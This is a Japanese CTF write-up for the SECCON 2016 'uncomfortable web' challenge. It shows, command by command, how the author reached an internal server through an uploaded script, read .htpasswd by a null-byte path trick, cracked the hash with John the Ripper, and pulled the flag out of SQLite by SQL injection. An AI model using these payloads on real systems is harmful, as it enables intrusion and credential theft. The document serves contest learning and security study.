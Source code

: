 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/seccon-2016-online-uncomfortable-web/
  - /blog/2016/12/11/seccon-2016-online-uncomfortable-web/
date: "2016-12-11T22:52:05+09:00"
tags: [ "ctf", "writeup", "seccon", "web", "sql-injection", "null-byte-attack", "htaccess", "htpasswd", "sqlite" ]
"target_url": [ "https://score-quals.seccon.jp/question/1707d3814069dec8ca49947830e3a51fdff4714b" ]
---
```


# SECCON 2016 Online CTF: uncomfortable web

本番ではそもそも開かず。生きてるweb問は貴重なので早めに復習。

## problem

適当な言語でscriptをuploadすると、remoteで実行してくれるサービス。
そこから繋がる `http://127.0.0.1:81/` にflagがあるので探す問題。

## solution

まず、scriptをwebからuploadして確認するのは煩雑である。以下のようにする。

``` sh
#!/bin/bash
atexit() { [ -n $tmpfile ] && rm -f "$tmpfile" ; }
tmpfile=`mktemp --suffix=.sh`
trap atexit EXIT
trap 'trap - EXIT; atexit; exit -1' SIGHUP SIGINT SIGTERM
cat <<EOF > $tmpfile
#!/bin/sh
echo
echo --------
echo
echo
echo

curl http://127.0.0.1:81/

echo
echo
echo
echo --------
echo
EOF
curl http://uncomfortableweb.pwn.seccon.jp/\? -F file=@$tmpfile | sed 's/&lt;/</g ; s/&gt;/>/g ; s/&quot;/'\''/g ; s/&amp;/\&/g'
```


`http://127.0.0.1:81/`ではディレクトリが見える。

```
Index of /

[ICO]           Name            Last modified   Size            Description
[DIR]           authed/         28-Nov-2016 10:51               -                
[TXT]           select.cgi      28-Nov-2016 10:08               612              
Apache Server at 127.0.0.1 Port 81
```

`/authed`にはbasic認証がある。
`/select.cgi`は以下のような出力をする。

``` html
<html>
<body>
<form action='?' method='get'>
<select name='txt'>
<option value='a'>a</option>
<option value='b'>b</option>
</select>
<input type='submit' vaue='GO'>
</form>
</body></html>
```

例えば `curl http://127.0.0.1:81/select.cgi?txt=a` とすると以下のように、`/authed/${txt}.txt`を読んでくれる。

``` html
<html>
<body>
<form action='?' method='get'>
<select name='txt'>
<option value='a'>a</option>
<option value='b'>b</option>
</select>
<input type='submit' vaue='GO'>
</form>
<hr>
authed/a.txt<br>
<br>
                       /$$     /$$                       /$$       /$$            /$$                /$$    <br>
                      | $$    | $$                      | $$      /$$/           | $$               | $$    <br>
  /$$$$$$  /$$   /$$ /$$$$$$  | $$$$$$$   /$$$$$$   /$$$$$$$     /$$//$$$$$$    /$$$$$$  /$$   /$$ /$$$$$$  <br>
 |____  $$| $$  | $$|_  $$_/  | $$__  $$ /$$__  $$ /$$__  $$    /$$/|____  $$  |_  $$_/ |  $$ /$$/|_  $$_/  <br>
  /$$$$$$$| $$  | $$  | $$    | $$  \ $$| $$$$$$$$| $$  | $$   /$$/  /$$$$$$$    | $$    \  $$$$/   | $$    <br>
 /$$__  $$| $$  | $$  | $$ /$$| $$  | $$| $$_____/| $$  | $$  /$$/  /$$__  $$    | $$ /$$ &gt;$$  $$   | $$ /$$<br>
|  $$$$$$$|  $$$$$$/  |  $$$$/| $$  | $$|  $$$$$$$|  $$$$$$$ /$$/  |  $$$$$$$ /$$|  $$$$//$$/\  $$  |  $$$$/<br>
 \_______/ \______/    \___/  |__/  |__/ \_______/ \_______/|__/    \_______/|__/ \___/ |__/  \__/   \___/  <br>
<br>
<br>
</body></html>
```

ここでnull-byte attackができて、`curl http://127.0.0.1:81/select.cgi?txt=a.txt%00`で上と同じ結果が得られる。

これを使って`/authed`の認証情報を取りにいく。つまり`.htaccess` `.htpasswd`を読む。
`curl http://127.0.0.1:81/select.cgi?txt=.htpasswd%00` とすると

```
keigo:LdnoMJCeVy.SE
```

と得られる。passwordは暗号化されているが、これは John the Ripper で破れる。(たぶんbruteforceしてる。)

``` sh
$ cat .htpasswd
keigo:LdnoMJCeVy.SE

$ john .htpasswd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (keigo)
1g 0:00:00:00 100% 2/3 33.33g/s 30733p/s 30733c/s 30733C/s orange..horses
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/` として見る。
以下のように並んでいる。

```
[DIR]           Parent Directory                                -                
[TXT]           1.cgi           28-Nov-2016 11:41               750              
[TXT]           2.cgi           28-Nov-2016 11:41               750              
[TXT]           3.cgi           28-Nov-2016 11:41               750              
[TXT]           4.cgi           28-Nov-2016 11:41               750              
[TXT]           5.cgi           28-Nov-2016 11:41               750              
[TXT]           6.cgi           28-Nov-2016 11:41               750              
[TXT]           7.cgi           28-Nov-2016 11:41               750              
...
[TXT]           98.cgi          28-Nov-2016 11:41               750              
[TXT]           99.cgi          28-Nov-2016 11:41               750              
[TXT]           100.cgi         28-Nov-2016 11:41               750              
```

どれも以下のようなもので、

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
</body></html>
```

`http://127.0.0.1:81/authed/sqlinj/1.cgi?no=4822267938`とすると以下のように検索結果が返る。

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: 4822267938<br>
ISBN-13: 978-4822267933<br>
PUBLISH: 2016/2/19<p>
</body></html>
```

`1.cgi`には刺さらないが、$100$ある内のいずれかにSQLiが刺さると踏んで、

``` sh
for i in \`seq 100\` ; do
    curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/\$i.cgi?no=$(urlencode " ' or 1 = 1 -- ")
done
```

とすると`72.cgi`がそれ。

適当にsqliteと判断して`sqlite_master`を見る。
これは`by KeigoYAMAZAKI`という作問者情報からでも分かるらしい。

``` sh
curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/72.cgi?no=$(urlencode " ' union select type, name, sql from sqlite_master -- ")
```

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: table<br>
ISBN-13: books<br>
PUBLISH: CREATE TABLE books (isbn10,isbn13,date)<p>
ISBN-10: table<br>
ISBN-13: f1ags<br>
PUBLISH: CREATE TABLE f1ags (f1ag)<p>
</body></html>
```

よって

``` sh
curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/72.cgi?no=$(urlencode " ' union select f1ag, 1, 1 from f1ags -- ")
```

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: SECCON{I want to eventually make a CGC web edition... someday...}<br>
ISBN-13: 1<br>
PUBLISH: 1<p>
</body></html>
```
